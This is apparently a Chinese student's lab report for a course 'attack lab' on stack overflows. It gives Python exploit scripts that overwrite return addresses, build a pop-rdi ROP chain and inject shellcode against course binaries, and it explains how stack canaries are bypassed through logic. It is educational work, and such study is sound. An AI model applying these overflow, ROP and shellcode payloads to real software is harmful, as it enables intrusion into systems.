








# 栈溢出攻击实验

姓名：刘子豪

学号：2024201598

## 题目解决思路


### Problem 1: 
- **分析**

  这个题目非常的简单，关键从`strcpy`进行攻击，这个函数不能检查输入长度，输入的字符串存在`rbp-8`，保存的原有rbp的位置为`rbp`，returnaddr位置为`rbp+8`，所以需要16字节大小无用字节，之后接上目标输出进行攻击，而目标在`func1`，只需把`func1`的地址按照小端序接在后面即可。

- **解决方案**

```python
# solve_p1.py
padding = b"A" * 16

# 目标地址：0x401216
# 0x0000000000401216 -> \x16\x12\x40\x00\x00\x00\x00\x00
target_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"

payload = padding + target_addr

with open("ans1.txt", "wb") as f:
    f.write(payload)

print("Payload generated in ans1.txt")
```

- **结果**：



### Problem 2:
- **分析**

problem2有了Nxenabled保护，problem1把一段恶意机器码写到栈上，然后跳过去执行。而2内存区域被标记为不可执行，栈只能读写，不能运行指令。所以只能利用程序内部已有的代码片段。

首先我需要找到目标字符串在哪里。阅读汇编，结合第一题的经验，肯定在`func2`中调用了目标字符串，`func2`根据跳转逻辑，有下面两条路可以走：

```asm
40122e:	48 8d 05 d3 0d 00 00 	lea    rax,[rip+0xdd3]        # 402008 <_IO_stdin_used+0x8>
// 这是第一条路，不跳转，也就是参数不等于0x3f8（rdi）
40124c:	48 8d 05 e8 0d 00 00 	lea    rax,[rip+0xde8]        # 40203b <_IO_stdin_used+0x3b>
// 这是第二条路，跳转，第一个参数等于0x3f8（rdi）

```
使用gdb指令，得出第二条路才能输出字符串:



所以需要做的是讲0x3f8传入rdi进行攻击。为了把 `0x3f8` 放进 `rdi` 寄存器，我们需要在代码里找一段包含 `pop rdi; ret` 的代码，`<pop_rdi>`中就有。

接下来可以按步骤进行攻击了：

func中的memcpy可以进行攻击，padding和problem1完全一样，所以还是16字节的padding，然后连接`pop rdi`的地址，然后压入0x3f8，这样pop的时候就能把目标值传入rdi，然后连接func2的地址。

- **解决方案**：

```python
# solve_p2.py
import struct

# 填充 16 字节垃圾数据
padding = b"A" * 16

# pop_rdi gadget 的地址
pop_rdi_addr = struct.pack("<Q", 0x4012c7)

# 传给 func2 的参数值 0x3f8
arg1 = struct.pack("<Q", 0x3f8)

# func2 的起始地址
func2_addr = struct.pack("<Q", 0x401216)

# 组合 Payload: Padding + Gadget + 参数 + 目标函数
payload = padding + pop_rdi_addr + arg1 + func2_addr

with open("ans2.txt", "wb") as f:
    f.write(payload)

print("Problem 2 Payload generated!")
```

- **结果**：



### Problem 3: 
- **分析**

根据前面的思路，首先分析func1，应该是核心攻击位置，开头还是老套路了，判断edi是否等于0x72，现在需要判断是否需要跳转，我画了一下栈帧进行分析：



注意8字节数在栈中是小端序，所以翻译为字符串后需要倒过来输出，所以看来edi必须等于0x72才能输出幸运数字。

但problem3很遗憾，没有像problem2一样`<pop_rdi>`一样便利的函数，所以需要另寻途径。

经过阅读关键几个汇编代码发现一个`jmp_xs` (0x401334)的函数：

```asm
40133c: 48 8b 05 cd 21 00 00  mov    rax,QWORD PTR [rip+0x21cd] # 指向 403510 <saved_rsp>
401347: 48 83 45 f8 10        add    QWORD PTR [rbp-0x8], 0x10
401350: ff e0                 jmp    rax
```

它会跳转到 `[403510] + 0x10` 的位置。 回到 `func` 函数中， `401368` 行将 `rsp` 的值保存到了 `[403510]`。当时 `rsp` 的值是 `rbp-0x30`。 因此，`jmp_xs` 实际上会跳转到：`(rbp - 0x30) + 0x10 = rbp - 0x20`。 这是Payload的起始地址。

题目有一个提示：`注意你能够使用的字节长度，以及你的栈地址变化情况`

所以可以构建一段shellcode：在 Payload 的开头放置一段 Shellcode，这段 Shellcode 的任务是：设置 `rdi = 0x72`，然后跳转到 `func1`，利用溢出，将 `func` 的返回地址覆盖为 `jmp_xs` 的地址 (`0x401334`)。

所以需要将以下汇编代码编为十六进制字节流：`bf 72 00 00 00 48 c7 c0 16 12 40 00 ff e0`

```asm
mov edi, 0x72          ; 设置参数
mov rax, 0x401216      ; func1 的起始地址
jmp rax                ; 执行 func1
```

便可得出如下的脚本：


- **解决方案**：

```python
# solve_p3.py
# 编写 Shellcode
shellcode = b"\xbf\x72\x00\x00\x00" + \
            b"\x48\xc7\xc0\x16\x12\x40\x00" + \
            b"\xff\xe0"

# 计算填充
# 缓冲区起始到返回地址的距离是 0x20 (32) + 0x8 (saved rbp) = 40 字节
padding_size = 40 - len(shellcode)
padding = b"A" * padding_size

# 目标跳转地址 (jmp_xs 的地址)
target_addr = b"\x34\x13\x40\x00\x00\x00\x00\x00" 

payload = shellcode + padding + target_addr

with open("ans3.txt", "wb") as f:
    f.write(payload)

print("Payload generated in ans3.txt")
```

- **结果**：



### Problem 4: 
- **分析**：

  首先根据课件`9-machine-advanced.pdf` 理解什么是canary，期末考试也涉及到了这部分内容。

  Canary是在函数的栈帧中，在局部变量和返回地址之间插入一个随机生成的数值。

  - 初始化：函数开始时，从 `fs:0x28`读取一个随机值压入栈中。
  - 验证：在函数返回之前，程序会重新读取这个值并与原始值比较。
  - 触发：如果攻击者试图通过溢出覆盖返回地址，必然会破坏这个 Canary 值。一旦检测到数值不匹配，程序会立即调用 `__stack_chk_fail` 并终止，从而防止劫持控制流。

  在problem4的`func`中具体的体现为：

设置：

```asm
mov    rax, QWORD PTR fs:0x28    # 获取随机 Canary
mov    QWORD PTR [rbp-0x8], rax  # 存放在栈上 (紧邻返回地址)
```

校验：

```asm
mov    rax, QWORD PTR [rbp-0x8]  # 取出栈上的值
sub    rax, QWORD PTR fs:0x28    # 与原始值对比
je     141e                      # 若相等则正常返回
call   10d0 <__stack_chk_fail>   # 若不等则崩溃
```

观察 `func` 函数（0x135d）的判断流程，目标是让程序运行到 `call 131c <func1>`。

对于`func`我的输入被存放在 `[rbp-0x24]`，之后的几行代码进行了如下的存储：

`[rbp-0x10] = 0xfffffffe` (即 $-2$)

`[rbp-0x18] = 输入值`

`[rbp-0xc] = 输入值`

第一步是输入一个数，然后输出为无符号整数，利用`gdb`看以下输出的在字符串，如下：



接下来通过`gdb`校验三个关键字符串，得出哪些汇编代表失败，从而得到正确的逻辑链：

```asm
1393:	48 8d 05 91 0c 00 00 	lea    rax,[rip+0xc91]        # 202b <_IO_stdin_used+0x2b>

13af:	48 8d 05 87 0c 00 00 	lea    rax,[rip+0xc87]        # 203d <_IO_stdin_used+0x3d>

13e5:	48 8d 05 6b 0c 00 00 	lea    rax,[rip+0xc6b]        # 2057 <_IO_stdin_used+0x57>
```



接下来进行无符号比较

```asm
137b: c7 45 f0 fe ff ff ff    mov    DWORD PTR [rbp-0x10], 0xfffffffe # 阈值 = -2
13aa: 3b 45 f0                cmp    eax, DWORD PTR [rbp-0x10]        # 比较 输入 与 -2
13ad: 73 11                   jae    13c0 <func+0x63>                 # 如果“高于或等于”则跳过失败分支
```

所以我输入了-1。接下来则继续验证输入-1正确。

接下来程序进行了大量的循环：

```asm
13c0: c7 45 ec 00 00 00 00    mov    DWORD PTR [rbp-0x14], 0x0        # 计数器 i = 0
13c9: 83 6d e8 01             sub    DWORD PTR [rbp-0x18], 0x1        # 钱 - 1
13cd: 83 45 ec 01             add    DWORD PTR [rbp-0x14], 0x1        # i + 1
13d1: 8b 45 ec                mov    eax, DWORD PTR [rbp-0x14]        
13d4: 3b 45 f0                cmp    eax, DWORD PTR [rbp-0x10]        # i 与 0xfffffffe 比较
13d7: 72 f0                   jb     13c9 <func+0x6c>                 # 如果 i < 0xfffffffe，继续减
```

程序进行了`0xfffffffe`次循环，最后的结果是1。

后续程序分别检验运算结果是否为1，输入是否为-1，如果都成立，就调用func1进行攻击。

- **解决方案**：输入-1

- **结果**：



## 思考与总结

`babyattacklab`确实做起来没有想象中的困难，尤其是有了`bomblab`的基础，相关工具用的也是更加熟练，而且每个`problem`的汇编代码不需要都读，只需要抓住几个`func`重点汇编进行分析即可，有了课堂所讲的最简单的攻击，逐步解决了每个`problem`，在这个过程中我又复习了栈帧的画法，比如在`problem3`中复杂字符串解读我画了栈帧把数翻译为字符，这样迅速解决了`edi`是否应该等于`0x72`的问题，之后在具体分析即可。而且四个`problem`层层递进，前面的给后面的解决有了不小的启发，所以做起来非常的有意思，很好的巩固了栈帧有关知识。

## 参考资料

PPT：9-machine-advanced.pdf

